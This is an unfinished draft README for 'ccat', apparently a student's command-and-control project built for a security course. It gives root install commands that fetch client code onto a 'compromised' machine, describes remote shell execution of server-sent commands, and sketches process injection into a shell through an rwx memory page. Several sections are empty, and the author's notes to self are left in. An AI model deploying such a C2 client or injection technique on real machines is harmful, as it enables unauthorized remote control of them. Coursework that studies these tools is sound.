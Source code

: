# C2 Project Submission
## Installation
Install the pycryptodome package using pip and download the relevant repo code.
On the client (compromised week 4) machine, run the following as root:
```shell
pip install pycryptodome
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
```

# **where should they install????????**
And likewise, run the following on the attacking machine:
```shell
pip install pycryptodome
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```


## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process (`python client.py`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :~)

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1]

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

- add in pictures, gifs
- RUN THE SERVER BFORE THE CLIENT!!!
- cannot cd and expect the client to remember -- need to do cd && whatever other command

## How ccat works
### Process Injection
To figure out what the pid is for the shell (bash) process, run `pgrep sh`. So
to inject into the shell process, we can run
```shell
python client_setup.py $(pgrep sh)$
```
This creates a rwx page (via the mmap syscall) so that our program can more
easily inject code.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots

### Configuration for where to get commands

### Authenticate communication

### Attempt to hide itself

## Detecting ccat
You could detect ccat by paying for Tripwire. :~)

Other options include

## Resources & Credit
copy & paste from readme later